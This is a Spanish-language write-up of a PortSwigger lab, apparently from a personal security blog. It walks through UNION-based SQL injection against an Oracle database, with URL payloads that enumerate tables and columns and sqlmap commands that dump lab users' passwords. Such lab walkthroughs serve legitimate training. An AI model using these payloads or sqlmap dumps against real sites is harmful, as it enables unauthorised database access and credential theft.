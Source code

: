 ```yaml
---
title: "SQL injection attack, listing the database contents on Oracle"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-15 12:36:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, listing the database contents on Oracle
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que hay que usar un `ataque UNION` para recuperar datos de otras `tablas`. La aplicación tiene una `función` de `inicio` de `sesión`, y la `base` de `datos` contiene una `tabla` que almacena `nombres` de `usuario` y `contraseñas`. Determinamos el `nombre` de esta `tabla` y las `columnas` que contiene, luego `recuperamos` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los `usuarios`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-6/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-6/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-6/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-6/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Lifestyle'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-6/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Lifestyle'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`, esto se debe a que al no existir tres columnas nos arroja un fallo

```
/filter?category=Lifestyle'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, usamos `from dual` debido a que estamos ante una base de datos `Oracle`

```
/filter?category=Lifestyle'+union+select+null,null+from+dual--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Lifestyle'+union+select+null,banner+from+v$version--+-+
```

![](/assets/img/SQLI-Lab-6/image_6.png)

`Listamos` el `nombre` de todos los propietarios

```
/filter?category=Lifestyle'+union+select+null,owner+from+all_tables--+-+
```

![](/assets/img/SQLI-Lab-6/image_7.png)

`Listamos` el `nombre` de la `base` de `datos` en uso

```
/filter?category=Lifestyle'+union+select+null,global_name+from+global_name--+-+
```

![](/assets/img/SQLI-Lab-6/image_8.png)

`Listamos` las `tablas` cuyo `propietario` es `PETER`

```
/filter?category=Lifestyle'+union+select+null,table_name+from+all_tables+where+owner='PETER'--+-+
```

![](/assets/img/SQLI-Lab-6/image_9.png)

`Listamos` las `columnas` de la tabla `USERS_NWMYAE`

```
/filter?category=Lifestyle'+union+select+null,column_name+from+all_tab_columns+where+table_name='USERS_NWMYAE'--+-+
```

![](/assets/img/SQLI-Lab-6/image_10.png)

`Obtenemos` el contenido de las columnas `PASSWORD_NDAIAQ` y `USERNAME_SDYBVL`

```
/filter?category=Lifestyle'+union+select+PASSWORD_NDAIAQ,USERNAME_SDYBVL+from+USERS_NWMYAE--+-+
```

![](/assets/img/SQLI-Lab-6/image_11.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [7]:
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] SYSTEM
[*] XDB
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER --tables --batch --threads 2 
Database: PETER
[2 tables]
+--------------+
| PRODUCTS     |
| USERS_GRCOPU |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU --columns --batch --threads 2   
Database: PETER
Table: USERS_GRCOPU
[3 columns]
+-----------------+----------+
| Column          | Type     |
+-----------------+----------+
| EMAIL           | VARCHAR2 |
| PASSWORD_EJHRJL | VARCHAR2 |
| USERNAME_RZIDBZ | VARCHAR2 |
+-----------------+----------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# qlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU -C PASSWORD_EJHRJL,USERNAME_RZIDBZ --dump --batch --threads 2
Database: PETER
Table: USERS_GRCOPU
[3 entries]
+----------------------+-----------------+
| PASSWORD_EJHRJL      | USERNAME_RZIDBZ |
+----------------------+-----------------+
| mgbyibei3vhwt891natb | administrator   |
| l4yb7rhby75261r7u622 | wiener          |
| uhnlgaqk499jfc1lu576 | carlos          |
+----------------------+-----------------+
```

Una vez obtenida la contraseña del usuario `administrator` podemos `loguearnos`

![](/assets/img/SQLI-Lab-6/image_12.png)

